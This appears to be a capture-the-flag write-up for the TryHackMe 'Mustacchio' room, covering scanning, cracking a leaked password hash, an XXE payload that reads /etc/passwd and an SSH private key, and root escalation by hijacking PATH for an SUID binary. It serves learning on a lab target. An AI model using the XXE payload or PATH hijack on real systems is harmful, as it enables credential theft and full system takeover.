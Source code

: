 ## TryHackMe Mustacchio Writeup
---

[Link to TryHackMe Room](https://tryhackme.com/room/mustacchio)


#### Mustacchio Room

![](/docs/images//mustacchio/mustacchio1.png)

The room is a standard TryHackMe ctf room with a user flag and root flag entries. 

#### Nmap Scan

```
$ nmap -sC -sV -p- 10.10.247.201 -oA nmap/nmap-mustacchio
```

![](/docs/images//mustacchio/mustacchio2.png)

#### Gobuster Scan

```
gobuster dir -u http://10.10.247.201 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/gob-mustacchio
```

![](/docs/images//mustacchio/mustacchio12.png)

#### Visiting the Website :80

![](/docs/images//mustacchio/mustacchio11.png)

Upon some looking around, most of the endpoint were just static pages. However some file pages were active, the one that was found to be interesting was the /custom/ endpoint. 

![](/docs/images//mustacchio/mustacchio13.png)

Inside were 2 directories, the css/ and js/. Since JS is the most exploitable part of a website, checking there first was obvious. 

![](/docs/images//mustacchio/mustacchio14.png)


There are 2 files in the /custom/js directory, I was definitely going to check out users.bak.


#### users.bak file

```
wget http://10.10.247.201/custom/js/users.bak
```

![](/docs/images//mustacchio/mustacchio15.png)

Honestly I thought it was going to be a bit obfuscated so I used strings. But it gives me a direct admin:password type of output. So using some easy-cheesy web tools I'm just going to see if I can get the password. 

Sources:
[hash-identifier](https://hashes.com/en/tools/hash_identifier)
[CrackStation](https://crackstation.net/)

![](/docs/images//mustacchio/mustacchio16.png)

<p></p>

![](/docs/images//mustacchio/mustacchio17.png)

Nice, the resulting password is bulldog19. Now to figure out where to use it. 


#### Visiting Website :8765

After a username and password was extracted from the main page. The next visit is the second http page that was found in the nmap scan. The nginx page on port 8765.

![](/docs/images//mustacchio/mustacchio18.png)

This page is found to be an admin page for the webserver. Using the admin credentials obtained earlier, it can be accessed.


![](/docs/images//mustacchio/mustacchio19.png)

There is a single comment block on the page to enter information into. The page is also a PHP portal, so there is a chance a php reverse shell could do it. 


![](/docs/images//mustacchio/mustacchio3.png)

This turns out to be an XML space. So there is potential for and XXE exploit. Let's take a look at the request in Burp Suite. 


![](/docs/images//mustacchio/mustacchio4.png)


Following the dontfoget.bak link downloads another file. 

![](/docs/images//mustacchio/mustacchio5.png)

cat dontforget.bak

![](/docs/images//mustacchio/mustacchio6.png)

XXE exploit

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>&ent;</name>
  <author>Barry Clad</author>
  <com>testing</com>
</comment>
```

![](/docs/images//mustacchio/mustacchio7.png)

.ssh/id_rsa

![](/docs/images//mustacchio/mustacchio8.png)

Private SSH Key


![](/docs/images//mustacchio/mustacchio9.png)


Now we need to decrypt this key.

This can be done using ssh2john.

![](/docs/images//mustacchio/mustacchio10.png)

NOTE: The base64.decodestring() function has been deprecated in Python 3.8, so change it to decodebytes(). Like actually go and change the file.



![](/docs/images//mustacchio/mustacchio22.png)

And there we go! The password for barry is "urieljames"

Also before the key can work, it wasn't formatted right out of the XXE output. So it needs to be spaced out properly manually or with a script. I recommend just going into BurpSuite and copying the request from repeater. 

![](/docs/images//mustacchio/mustacchio23.png)


This is how the file should look like and then $ chmod 600 the file as well. 


Next I can SSH into the machine using the RSA private key and the passphrase from John.

```
ssh barry@10.10.188.151 -i ssh-creds/barry.key
```


![](/docs/images//mustacchio/mustacchio20.png)


#### Privilege Escalation - SUID

Now onto the privilege escalation. Normally I'd use linPeas but the hint tells me that it uses an SUID binary so I can use a find command and search for them.

```
find / -perm -u=s -type f 2>/dev/null
```

![](/docs/images//mustacchio/mustacchio24.png)

And this does give a response that can be investigated. The binary /home/joe/live_log.


![](/docs/images//mustacchio/mustacchio25.png)

So it is an executable file that allows has root privileges.

Lets see what it actually does since this does seem to be a custom application.

![](/docs/images//mustacchio/mustacchio26.png)

After executing the live_log binary, it outputs apache/nginx logs from the home page of the admin website. So potentially there could be some log poisoning to execute commands. Or just manipulation of the SUID commands. 


![](/docs/images//mustacchio/mustacchio27.png)

After a $ strings check, I can see that the "tail" command is not defined from its absolute pathname. This makes it so the user that is running the application needs to use their terminal paths to 

```
PATH=/home/barry:$PATH
```

First step is to create the /home/barry a path before the current path so it takes priority over the /usr/bin and /usr/sbin folders.

![](/docs/images//mustacchio/mustacchio30.png)


Now to create the script. For this I'm just using the /bin/bash string just to be simple. Since this is an easy box it should just work right out of the gate. Hopefully, sometimes there need to be some script parameters if the root user is restricted to no shell or /bin/sh.


![](/docs/images//mustacchio/mustacchio29.png)

And now all that needs to be done is run the live_log script and it should work. ****


![](/docs/images//mustacchio/mustacchio31.png)